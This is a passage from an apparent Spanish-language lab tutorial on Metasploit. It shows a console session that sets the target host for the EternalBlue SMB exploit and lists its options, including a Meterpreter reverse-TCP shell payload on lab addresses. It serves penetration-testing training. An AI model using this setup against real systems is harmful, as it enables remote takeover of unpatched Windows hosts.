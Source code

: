 # Uso de Metasploit para Explotar Vulnerabilidades

## Configuración de Parámetros del Módulo

Como se puede ver en la captura de pantalla anterior, algunos de estos parámetros requieren un valor para que el exploit funcione. Algunos valores de parámetros requeridos se pre-poblarán, asegúrate de verificar si deben permanecer igual para tu objetivo. Por ejemplo, un exploit web podría tener un valor de RPORT (puerto remoto: el puerto en el sistema objetivo al que Metasploit intentará conectarse y ejecutar el exploit) preestablecido en 80, pero tu aplicación web objetivo podría estar usando el puerto 8080.

```bash

msf6 exploit(windows/smb/ms17_010_eternalblue) > set rhosts 10.10.165.39
rhosts => 10.10.165.39
msf6 exploit(windows/smb/ms17_010_eternalblue) > show options

Module options (exploit/windows/smb/ms17_010_eternalblue):

   Name           Current Setting  Required  Description
   ----           ---------------  --------  -----------
   RHOSTS         10.10.165.39     yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:'
   RPORT          445              yes       The target port (TCP)
   SMBDomain      .                no        (Optional) The Windows domain to use for authentication
   SMBPass                         no        (Optional) The password for the specified username
   SMBUser                         no        (Optional) The username to authenticate as
   VERIFY_ARCH    true             yes       Check if remote architecture matches exploit Target.
   VERIFY_TARGET  true             yes       Check if remote OS matches exploit Target.


Payload options (windows/x64/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     10.10.44.70      yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Windows 7 and Server 2008 R2 (x64) All Service Packs


msf6 exploit(windows/smb/ms17_010_eternalblue) >

```
